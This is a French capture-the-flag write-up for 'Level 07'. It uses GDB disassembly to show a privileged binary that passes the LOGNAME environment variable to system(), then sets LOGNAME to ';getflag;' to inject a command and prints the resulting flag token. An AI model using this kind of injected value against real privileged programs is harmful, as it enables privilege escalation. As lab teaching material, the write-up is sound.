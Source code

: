 # Level 07

## Étapes pour résoudre le challenge

### 1. Initialisation

Nous commençons avec un fichier exécutable nommé `level07`. Comme ce fichier est binaire, l'afficher directement ne serait pas utile. Nous allons donc l'exécuter pour voir ce qu'il fait.

```bash
./level07
```

**Sortie :**
```
level07
```

Il affiche simplement le nom du programme. Pour aller plus loin, nous devons examiner le code source de l'exécutable.

### 2. Analyse avec GDB

Nous utilisons GDB pour analyser le programme.

```bash
gdb ./level07
```

Nous mettons un point d'arrêt au début de la fonction `main`.

```gdb
(gdb) break main
(gdb) run
(gdb) disassemble main
```

**Sortie (extrait pertinent) :**
```assembly
Dump of assembler code for function main:
   0x08048514 <+0>:	push   %ebp
   0x08048515 <+1>:	mov    %esp,%ebp
   0x08048517 <+3>:	and    $0xfffffff0,%esp
   0x0804851a <+6>:	sub    $0x20,%esp
=> 0x0804851d <+9>:	call   0x80483f0 <getegid@plt>
   0x08048522 <+14>:	mov    %eax,0x18(%esp)
   0x08048526 <+18>:	call   0x80483e0 <geteuid@plt>
   0x0804852b <+23>:	mov    %eax,0x1c(%esp)
   0x0804852f <+27>:	mov    0x18(%esp),%eax
   0x08048533 <+31>:	mov    %eax,0x8(%esp)
   0x08048537 <+35>:	mov    0x18(%esp),%eax
   0x0804853b <+39>:	mov    %eax,0x4(%esp)
   0x0804853f <+43>:	mov    0x18(%esp),%eax
   0x08048543 <+47>:	mov    %eax,(%esp)
   0x08048546 <+50>:	call   0x8048450 <setresgid@plt>
   0x0804854b <+55>:	mov    0x1c(%esp),%eax
   0x0804854f <+59>:	mov    %eax,0x8(%esp)
   0x08048553 <+63>:	mov    0x1c(%esp),%eax
   0x08048557 <+67>:	mov    %eax,0x4(%esp)
   0x0804855b <+71>:	mov    0x1c(%esp),%eax
   0x0804855f <+75>:	mov    %eax,(%esp)
   0x08048562 <+78>:	call   0x80483d0 <setresuid@plt>
   0x08048567 <+83>:	movl   $0x0,0x14(%esp)
   0x0804856f <+91>:	movl   $0x8048680,(%esp)
   0x08048576 <+98>:	call   0x8048400 <getenv@plt>
   0x0804857b <+103>:	mov    %eax,0x8(%esp)
   0x0804857f <+107>:	movl   $0x8048688,0x4(%esp)
   0x08048587 <+115>:	lea    0x14(%esp),%eax
   0x0804858b <+119>:	mov    %eax,(%esp)
   0x0804858e <+122>:	call   0x8048440 <asprintf@plt>
   0x08048593 <+127>:	mov    0x14(%esp),%eax
   0x08048597 <+131>:	mov    %eax,(%esp)
   0x0804859a <+134>:	call   0x8048410 <system@plt>
   0x0804859f <+139>:	leave  
   0x080485a0 <+140>:	ret    
End of assembler dump.
```

Nous voyons des appels à des fonctions système telles que `getenv`, `asprintf` et `system`. Nous comprenons que le programme manipule des variables d'environnement et exécute des commandes système.

### 3. Exploration des variables d'environnement

Nous listons les variables d'environnement pour voir si nous pouvons les exploiter.

```bash
env
```

**Sortie :**
```
LOGNAME=level07
USER=level07
USERNAME=level07
```

Plusieurs variables d'environnement sont définies à notre nom. Nous allons essayer de les modifier pour exécuter la commande `getflag`.

### 4. Exploitation

Nous modifions la variable d'environnement `LOGNAME` pour y insérer la commande `getflag`.

```bash
export LOGNAME=";getflag;"
./level07
```

**Sortie :**
```
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

Nous obtenons le flag : `fiumuikeil55xe9cu4dood66h`.

### 5. Connexion avec le flag

Nous utilisons le flag pour nous connecter au niveau suivant.

```bash
su flag08
```

## Résumé

Pour résoudre ce challenge, nous avons utilisé GDB pour analyser le programme et identifier une vulnérabilité dans l'utilisation des variables d'environnement. En modifiant la variable `LOGNAME`, nous avons pu injecter et exécuter la commande `getflag` pour obtenir le flag.

Le flag pour `level07` est : `fiumuikeil55xe9cu4dood66h`.
